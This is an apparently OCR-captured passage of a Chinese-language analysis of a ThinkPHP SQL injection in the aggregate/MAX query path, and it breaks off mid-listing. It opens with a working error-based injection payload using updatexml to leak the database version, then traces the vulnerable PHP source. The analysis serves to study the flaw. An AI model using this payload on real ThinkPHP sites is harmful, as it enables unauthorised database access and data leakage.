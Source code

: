 ```
?options=id`)and updatexml(1,concat(0x7e,version(),0x7e),1) from users%23
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204111454161.png)

## 漏洞分析

函数调用栈

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204111504332.png)

```php
#thinkphp/library/think/db/Query.php
    /**
     * MAX查询
     * @access public
     * @param  string $field    字段名
     * @param  bool   $force    强制转为数字类型
     * @return mixed
     */
    public function max($field, $force = true)
    {
        return $this->aggregate('MAX', $field, $force);
    }
    /**
     * 聚合查询
     * @access public
     * @param  string $aggregate    聚合方法
     * @param  string $field        字段名
     * @param  bool   $force        强制转为数字类型
     * @return mixed
     */
    public function aggregate($aggregate, $field, $force = false)
    {
        $this->parseOptions();

        $result = $this->connection->aggregate($this, $aggregate, $field);

        ...

        return $result;
    }

#thinkphp/library/think/db/Connection.php
    /**
     * 得到某个字段的值
     * @access public
     * @param  Query     $query     查询对象
     * @param  string    $aggregate 聚合方法
     * @param  string    $field     字段名
     * @return mixed
     */
    public function aggregate(Query $query, $aggregate, $field)
    {
        $field = $aggregate . '(' . $this->builder->parseKey($query, $field, true) . ') AS tp_' . strtolower($aggregate);
        #$field=MAX(`id`)and updatexml(1,concat(0x7e,version(),0x7e),1) from users#`) AS tp_max
        return $this->value($query, $field, 0);#执行查询并得到某个字段的值
    }

#thinkphp/library/think/db/builder/Mysql.php
    /**
     * 字段和表名处理
```